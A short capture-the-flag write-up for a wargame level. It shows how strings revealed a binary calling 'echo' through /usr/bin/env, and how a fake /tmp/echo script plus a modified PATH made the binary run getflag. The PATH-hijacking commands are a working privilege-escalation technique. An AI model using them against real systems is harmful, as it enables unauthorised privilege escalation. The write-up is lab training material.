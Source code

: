 # Level 03

## Analysis

In the user's home directory, we discovered a binary file. Utilizing the `strings` command, which prints the sequences of printable characters in files, we identified a line that appeared suspicious. This line seemed to invoke an external binary from a path named `echo`.

```sh
strings level03
...
/usr/bin/env echo Exploit me
...
```

To exploit this, we created a shell script named `echo` and manipulated the environment's PATH variable to prioritize our script by adding it to the path.

```bash
cat << EOF > /tmp/echo
#!/bin/sh
getflag
EOF
chmod +x /tmp/echo
export PATH=/tmp:$PATH
```

Executing the `level03` binary thereafter used our script, thereby printing the flag.